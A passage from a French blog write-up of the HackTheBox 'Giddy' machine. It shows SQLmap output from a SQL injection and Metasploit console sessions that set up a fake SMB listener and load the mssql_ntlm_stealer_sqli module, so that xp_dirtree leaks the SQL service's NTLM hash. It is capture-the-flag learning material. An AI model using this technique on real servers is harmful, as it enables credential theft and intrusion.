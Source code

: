 ![HackTheBox Giddy Wapiti SQL injection report](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/giddy_wapiti.png)

J'ai lancé SQLmap sur cette URL qui p'a permis d'obtenir la liste des utilisateurs suivants du système ainsi que différentes infos :  

```plain
[*] BUILTIN\\Users
[*] giddy\\stacy
[*] sa (administrator)

current database:    'Injection'
current user:    'giddy\\stacy'
hostname:    'GIDDY\SQLEXPRESS'
```

Pour le reste aucune information sensible ne semble présente dans les bases de données... C'est bien la peine.  

Alors je me suis dit, c'est dommage qu'on ne puisse pas provoquer une connexion SMB sortante afin de récupérer le hash NTLM de l'utilisateur faisant tourner le serveur SQL.  

Et bien si on peut grace au module [mssql\_ntlm\_stealer\_sqli](https://github.com/rapid7/metasploit-framework/pull/920) de Metasploit.  

Ce module utilise en fait la procédure *xp\_dirtree* de MSSQL. J'avais quand même un doute quand au succès de cette technique vu que notre utilisateur courant n'est pas administrateur de la base de données.  

On va pour cela mettre d'abord en écoute (et en background) notre port 445 via le module *capture/smb* puis ensuite exécuter le module *stealer* pour provoquer l'utilisation de *xp\_dirtree* sur notre faux partage SMB :  

```plain
msf auxiliary(server/capture/smb) > show options

Module options (auxiliary/server/capture/smb):

   Name        Current Setting   Required  Description
   ----        ---------------   --------  -----------
   CAINPWFILE                    no        The local filename to store the hashes in Cain&Abel format
   CHALLENGE   1122334455667788  yes       The 8 byte server challenge
   JOHNPWFILE  /tmp/yolo         no        The prefix to the local filename to store the hashes in John format
   SRVHOST     10.10.12.177      yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT     445               yes       The local port to listen on.

Auxiliary action:

   Name     Description
   ----     -----------
   Sniffer

msf auxiliary(server/capture/smb) > exploit -j
[*] Auxiliary module running as background job 0.

[*] Server started.
msf auxiliary(server/capture/smb) > use auxiliary/admin/mssql/mssql_ntlm_stealer_sqli
msf auxiliary(admin/mssql/mssql_ntlm_stealer_sqli) > show options

Module options (auxiliary/admin/mssql/mssql_ntlm_stealer_sqli):

   Name      Current Setting                                     Required  Description
   ----      ---------------                                     --------  -----------
   COOKIE                                                        no        Cookie value
```